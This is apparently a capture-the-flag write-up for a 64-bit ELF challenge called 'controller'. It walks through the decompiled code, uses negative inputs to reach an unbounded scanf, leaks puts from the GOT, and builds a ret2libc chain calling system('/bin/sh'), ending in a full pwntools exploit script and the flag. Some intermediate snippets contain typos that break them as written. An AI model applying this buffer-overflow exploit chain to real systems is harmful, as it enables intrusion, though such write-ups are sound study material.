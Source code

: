 # Controller

####  Description : 
![about](../../controller/about.jpeg)


#### Solution

* We were given an elf- controller and a libc
* On checking the type of file:
```
controller: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e5746004163bf77994992a4c4e3c04565a7ad5d6, not stripped
```
* On doing checksec:
```
[*] '/home/adhi-11/Downloads/control/controller'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
* On running it:
![run](../../controller/run.png)
* As it is dynamically linked, and as NX is enabled , we might have to do a ret2libc

* Let's debug in ghidra:
* main 
```
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  welcome();
  calculator();
  return 0;
}
```
* welcome functions seems normal, so let's move on to other's

* calculator
```
void calculator(void)

{
  ulong uVar1;
  char local_28 [28];
  int local_c;
  
  uVar1 = calc();
  local_c = (int)uVar1;
  if (local_c == 0xff3a) {
    printstr("Something odd happened!\nDo you want to report the problem?\n> ");
    __isoc99_scanf(&DAT_004013e6,local_28);
    if ((local_28[0] == 'y') || (local_28[0] == 'Y')) {
      printstr("Problem reported!\n");
    }
    else {
      printstr("Problem ingored\n");
    }
  }
  else {
    calculator();
  }
  return;
}
```
* calc
```

ulong calc(void)

{
  ulong uVar1;
  float fVar2;
  uint local_18;
  uint local_14;
  int local_10;
  uint local_c;
  
  printstr("Insert the amount of 2 different types of recources: ");
  __isoc99_scanf("%d %d",&local_14,&local_18);
  uVar1 = menu();
  local_10 = (int)uVar1;
  if ((69 < (int)local_14) || (0x45 < (int)local_18)) {
    printstr("We cannot use these many resources at once!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x69);
  }
  if (local_10 == 2) {
    uVar1 = sub(local_14,local_18);
    local_c = (uint)uVar1;
    printf("%d - %d = %d\n",(ulong)local_14,(ulong)local_18,uVar1 & 0xffffffff);
    goto LAB_00401061;
  }
  if (local_10 < 3) {
    if (local_10 == 1) {
      uVar1 = add(local_14,local_18);
      local_c = (uint)uVar1;
      printf("%d + %d = %d\n",(ulong)local_14,(ulong)local_18,uVar1 & 0xffffffff);
      goto LAB_00401061;
    }
  }
  else {
    if (local_10 == 3) {
      uVar1 = mult(local_14,local_18);
      local_c = (uint)uVar1 & 0xffff;
      printf("%d * %d = %d\n",(ulong)local_14,(ulong)local_18,(ulong)local_c);
      goto LAB_00401061;
    }
    if (local_10 == 4) {
      fVar2 = divi(local_14,local_18);
      local_c = (uint)(long)fVar2;
      printf("%d / %d = %d\n",(ulong)local_14,(ulong)local_18,(long)fVar2 & 0xffffffff);
      goto LAB_00401061;
    }
  }
  printstr("Invalid operation, exiting..\n");
LAB_00401061:
  return (ulong)local_c;
}
```
####  OVERFLOW
* From calculator(), we understood that our inputs(say, a and b) must be in such a way that on doing any of the above operations on it, should give us 0xff3a (65338). Once we can do that, we will get to "  __isoc99_scanf(&DAT_004013e6,local_28);", which is gets as "%s" is unbound. Then we can overflow char local_28 [28]
* In calc(): ((69 < (int)local_14) || (0x45 < (int)local_18)), this condition says if our input is greater than 65, i will show an error statment. 
* Inputs : -65338 and -130676
```
p.sendlineafter(': ','-65338 -130676')
p.sendlineafter('> ','2')
```
* Now we got to scanf, to overflow we need to give a junk input of size 40 (32 + 8 padding).
 
#### LEAK

* As ASLR,that is in simple terms randomization of base address in libc, might be enabled, we have to leak the libc address. 
* Let's leak puts() address from GOT.
* Here, the first argument(address) is to be pooped into RDI. 
* The code to leak:
```
ppop_rdi = next(binary.search(asm('pop rdi; ret'))) #Searching for pop rdi

leak = 40 * b'A' # our overflow value with padding : 32+8
leak += p64(pop_rdi)
leak += p64(binary.got.puts)
leak += p64(binary.plt.puts)
leak += p64(binary.sym.calculator) 

p.sendlineafter('> ',leak)

p.recvuntil('ingored\n')
address= u64(p.recv(6) + b'\0\0')
log.info('puts: ' + hex(address))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.ddress))
```
#### RET2LIBC
* Now that we have our addresses, we have to do a basic ret2libc. We have to overflow again and pop the address of "/bin/sh" in RDI .
```
payload = 40 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)
```
![terminal](../../controller/terminal.png)
### Final Script
```
from pwn import *
# As, I am running locally, I use this. Else you can connect it to server.
binary = context.binary = ELF('./controller')
p = process(binary.path)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Sening our inputs acc to condition.

p.sendlineafter(': ','-65338 -130676')
p.sendlineafter('> ','2')


pop_rdi = next(binary.search(asm('pop rdi; ret'))) #Searching for pop rdi

leak = 40 * b'A' # our overflow value with padding : 32+8
leak += p64(pop_rdi)
leak += p64(binary.got.puts)
leak += p64(binary.plt.puts)
leak += p64(binary.sym.calculator) 

p.sendlineafter('> ',leak)

p.recvuntil('ingored\n')
puts= u64(p.recv(6) + b'\0\0')
#log.info('puts: ' + hex(aputs)
libc.address = puts - libc.sym.puts
#log.info('libc.address: ' + hex(libc.ddress))

p.sendlineafter(': ','-65338 -130676')
p.sendlineafter('> ','2')

payload = 40 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(libc.search(b"/bin/sh").__next__())
payload += p64(libc.sym.system)

p.sendlineafter('> ',payload)
p.recvuntil('ingored\n')
p.interactive()
```
### FLAG
CHTB{1nt3g3r_0v3rfl0w_s4v3d_0ur_r3s0urc3s}

